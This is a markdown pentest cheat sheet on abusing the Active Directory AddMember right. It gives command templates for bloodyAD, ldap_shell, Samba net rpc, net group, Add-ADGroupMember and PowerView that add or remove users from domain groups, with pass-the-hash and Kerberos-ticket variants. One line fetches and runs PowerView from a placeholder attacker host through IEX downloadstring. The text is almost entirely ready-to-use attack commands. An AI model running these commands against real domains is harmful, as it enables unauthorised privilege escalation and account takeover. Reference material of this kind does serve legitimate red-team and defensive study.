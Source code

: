 
# Abusing AddMember

If an user have AddMember over a group can add itself inside the group, add other users inside this group, or even remove users. This can be done with multiple tools.

## Addiding member

### From Linux (enternally recomended):

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S '<dc-ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p '<password>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With KERBEROS auth:

Ldap_shell -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`ldap_shell '<domain>/<user>:<password>' -dc-host <machine.domain> -k`

`add_user_to_group <user> <group>`

BloodyAD -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<user>' -k --host <machine.domain> add groupMember '<group>' '<user to add in group>'`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`

<br>

### Articles:

https://www.hackingarticles.in/addself-active-directory-abuse/

https://bloodhound.specterops.io/resources/edges/add-self


## Removing members

`bloodyAD --host <ip> -d <domain> -u '<user>' -p '<password>' remove groupMember '<group to abandone>' '<user/group you want to remove>'`

Kerberos -> `bloodyAD -k --host <machine.domain> -d <domain> -u '<user>' -p '<password>' remove groupMember '<group to abandone>' '<user/group you want to remove>'`
